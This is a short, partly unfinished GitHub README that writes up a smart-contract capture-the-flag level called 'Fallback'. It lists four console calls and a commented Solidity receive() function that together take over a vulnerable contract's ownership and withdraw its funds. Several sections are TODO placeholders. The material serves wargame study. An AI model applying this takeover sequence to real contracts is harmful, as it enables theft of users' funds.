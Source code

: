 # Fallback challenge - Level 1 🚧 Update In Progress 🏗
<p align="left"> <img src="https://komarev.com/ghpvc/?username=Level1&label=Repository%20views&color=0e75b6&style=flat" alt="wrappedusername" /> </p>

```yml
This smart contract has a vulnerability, because:
```

- TODO

```JavaScript
await contract.contribute({value: 1});
await contract.sendTransaction({value: 1 });
await contract.owner();
await contract.withdraw();
```

```Solidity
/** 
* @notice This fallback function receive() is the main attack target, in order to pass the 
* require statement player must use function contribute() 1 wei will be enough, using the console
* player calls await contract.contribute({value: 1}), then player calls await contract.sendTransaction({value: 1}),
* player can verify ownership with await contract.owner(), player will now be able to withdraw all tokens. 
*/
receive() external payable {
  require(msg.value > 0 && contributions[msg.sender] > 0);
  owner = msg.sender; 
}
```

## The victim contract in detail

```yml
The victim contract imports OpenZeppelin's safeMath here:
```
- TODO

```Solidity

```
  
